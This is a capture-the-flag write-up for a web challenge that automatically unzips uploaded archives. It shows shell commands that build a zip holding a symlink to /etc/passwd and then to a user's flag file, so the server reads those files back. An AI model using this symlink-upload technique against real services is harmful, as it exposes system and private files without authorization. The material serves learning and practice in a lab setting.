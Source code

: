 ![webpage]({{ page.img_dir | relative_url }}/Schrödinger/images/webpage.png)

We can already guess what's the vulnerability here, and more specifically the scenario is about [Zip File Automatically decompressed Upload](https://book.hacktricks.xyz/pentesting-web/file-upload#zip-tar-file-automatically-decompressed-upload)

To briefly describe the steps
1. Create a symbolic link to the target file (i.e /etc/passwd)
2. Create a Zip Archive that contains that symlink
3. Upload and read the content of the dereferenced symlink

The only thing here is to figure out where the flag is located, we can read */etc/passwd* in order to get the user running on the machine and then guess the flag location as /home/[user]/flag.txt

## Solution
Create a zip to read /etc/passwd as explained before
```
ln -s /etc/passwd test
zip --symlinks test.zip test
```
![etcpasswd]({{ page.img_dir | relative_url }}/Schrödinger/images/passwd.png)

The user is *copenhagen* (the only one with /bin/sh) and now we can proceed to read /home/copenhagen/flag.txt 
```
mkdir /home/copenhagen
touch /home/copenhagen/flag.txt
ln -s /home/copenhagen/flag.txt flag
zip --symlinks test.zip flag
```
and here's the flag

![flag]({{ page.img_dir | relative_url }}/Schrödinger/images/flag.png)

I've also included the python [source]({{ page.img_dir | relative_url }}/Schrödinger/src/server.py) for the application, still dumped with the symlink vulnerability, but index.html and file_upload.html are not included 



